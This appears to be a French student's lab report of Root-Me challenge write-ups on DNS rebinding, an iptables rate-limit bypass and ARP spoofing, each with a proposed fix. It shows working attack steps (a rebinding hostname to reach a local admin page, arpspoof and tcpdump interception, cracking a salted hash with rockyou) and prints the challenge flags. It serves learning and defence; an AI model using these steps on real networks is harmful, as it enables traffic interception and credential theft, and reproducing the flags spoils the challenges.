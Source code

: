 # TP6 : Un peu de root-me

## I. DNS Rebinding

**🌞 Write-up de l'épreuve**

```
requete dns normale et legitime :
1) utilisateur rentre url, client envoie une requete dns pour resoudre le nom de domaine en une adresse IP
2) le client verifie sur l'ip est stocké dans le cache si elle est presente alors elle passe les etapes suivante
3) si l'ip n'est pas dans le cache, le client envoie la requete au serveur dns ( du routeur 🤷‍♂️ ) 
4) le serveur dns consulte sa db ou relaie a d'autre serveurs DNS jusqu'a trouver l'ip
5) une fois l'ip trouvé le serveur envoie la reponse 

reponse dns dns normale et legitime

dans une reponse il y a :

adresse ip associée au nom de domaine
le type d'enregistrement ( A, AAAA, MX) 
et le TTL qui indique la durée pendant laquelle la reponse est considérée valide et donc peut etre stockée dans le cache

donc le role du TTL c'est par exemple un TTL de 300s signifie que la reponse peut etre reutilisée pendant 5 minutes 

on peut mettre le TTL a une valeur tres basse, comme ça le client renvoie des requetes dns constamment et nous on peut changer le domaine pour qu'il pointe vers une ip locale par exemple

avec le site suivant : https://lock.cmpxchg8b.com/rebinder.html

on peut faire une attaque dns rebinding

d48126e0.7f000001.rbndr.us:54022/admin

et on spam le site avec des requetes dns pour que le TTL soit toujours valide et on peut acceder a l'admin

```
u1reSog00dWizDNSR3bindindon
```

**🌞 Proposer une version du code qui n'est pas vulnérable**

```python
TRUSTED_DOMAINS = ['example.com', 'secure-site.com']

def valid_ip(ip):
    try:
        result = ipaddress.ip_address(ip)
        return not (result.is_private or result.is_loopback or result.is_reserved or result.is_multicast)
    except Exception as e:
        return False

def valid_fqdn(fqdn):
    try:
        ip = socket.gethostbyname(fqdn)
        return valid_ip(ip) and (fqdn in TRUSTED_DOMAINS if TRUSTED_DOMAINS else True)
    except Exception as e:
        return False

```


## II. Netfilter erreurs courantes

**🌞 Write-up de l'épreuve**

```
Après analyse du code, on peut voir que le script iptables est mal configuré. Plus particulierement cette ligne : 
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP

donc f5 très fort ou curl répétés ou un ptit boucle for qui fait les curl

```

[Voici le script pour bypass la règle](netfilter.sh)
ou juste a faire ctrl + f5 sur la page web


```
Nicely done:)

There are probably a few things the administrator was missing when writing this ruleset:

    1) When a rule does not match, the next one is tested against

    2) When jumped in a user defined chain, if there is no match, then the
       search resumes at the next rule in the previous (calling) chain

    3) The 'limit' match is used to limit the rate at which a given rule can
       match: above this limit, 1) applies

    4) When a rule with a 'terminating' target (e.g.: ACCEPT, DROP...) matches
       a packet, then the search stops: the packet won't be tested against any
       other rules
    
The flag is: saperlipopete
```

**🌞 Proposer un jeu de règles firewall**  

```
iptables -N HTTP_LIMIT
iptables -A INPUT -p tcp --dport 80 -m conntrack --ctstate NEW -j HTTP_LIMIT
iptables -A HTTP_LIMIT -m limit --limit 3/sec --limit-burst 10 -j RETURN
iptables -A HTTP_LIMIT -j DROP
```

## III. ARP Spoofing Ecoute active

**🌞 Write-up de l'épreuve**

```
root@fac50de5d760:~#apt update && apt install nmap dsniff tcpdump build -y

root@fac50de5d760:~#arpspoof -i eth0 -t 172.18.0.4 172.18.0.2
root@fac50de5d760:~#arpspoof -i eth0 -t 172.18.0.2 172.18.0.4
root@fac50de5d760:~#tcpdump -i eth0 -n -nn not port 22 -w toto.pcap


slayz@debian:~$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:2d0b063e696a68582529680c402a21776f777862 Téléchargements/rockyou.txt 0907f80d40a6fa807c59dece79af83f7d988b141
[*] loading file...
[*] found heyheyhey=0907f80d40a6fa807c59dece79af83f7d988b141
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords

l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey

```
[Voir la capture Wireshark](TP6/toto.pcap)

**🌞 Proposer une configuration pour empêcher votre attaque**

```
chiffrer les données 
Segmenter le reseau en VLAN
```

```
update la base de données mysql changé de type d'authentification
```